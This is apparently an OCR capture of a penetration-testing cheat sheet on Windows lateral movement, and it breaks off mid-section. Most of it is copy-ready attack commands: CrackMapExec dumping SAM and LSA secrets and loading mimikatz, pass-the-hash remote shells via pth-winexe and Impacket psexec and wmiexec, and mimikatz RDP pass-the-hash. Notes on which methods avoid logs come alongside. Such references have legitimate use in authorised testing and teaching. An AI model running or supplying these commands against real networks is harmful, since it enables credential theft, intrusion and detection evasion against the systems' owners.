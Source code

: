 ### Windows priv esc

https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

## Compromise and Lateral Movement

### Crackmapexec

`crackmapexec smb 172.16.110.0/24`

`crackmapexec smb 172.16.110.154 -u Administrator -p Password1 -x 'ipconfig'`

`crackmapexec smb 172.16.110.154 -u Administrator -p Password1 --pass-pol`

`crackmapexec smb 172.16.110.154 -u Administrator -p Password1 -M mimikatz`

`crackmapexec smb 172.16.110.154 -u Administrator -p Password1 --sam`

`crackmapexec smb 172.16.110.154 -u Administrator -p Password1 --lsa`

### Winexe to boxes (not opsec safe) - service is run. No cleanup.

`pth-winexe //10.0.0.1 -U DOMAINBLAH/blahuser%blahpassword cmd`

`pth-winexe //10.0.0.1 -U DOMAINBLAH/blahuser%hash cmd`

### Impacket psexec.py to boxes (not opsec safe) - does cleanup after but leaves logs after installing and running service.

`psexec.py user@IP`

`psexec.py user@IP -hashes ntlm:hash`

### Impacket wmiexec.py (opsec safe - unless WMI logging is enabled)

`wmiexec.py domain/user@IP`

`wmiexec.py domain/user@IP -hashes ntlm:hash`

### Impacket smbclient (probably opsec safe as its just using SMB)

`python smbclient.py domain/blahuser@10.0.0.1 -hashes aad3b435b51404eeaad3b435b51404ee:blah`

## RDP Pass the Hash
Using mimikatz:

`privilege::debug`
`sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:"mstsc.exe /restrictedadmin"`

If disabled:
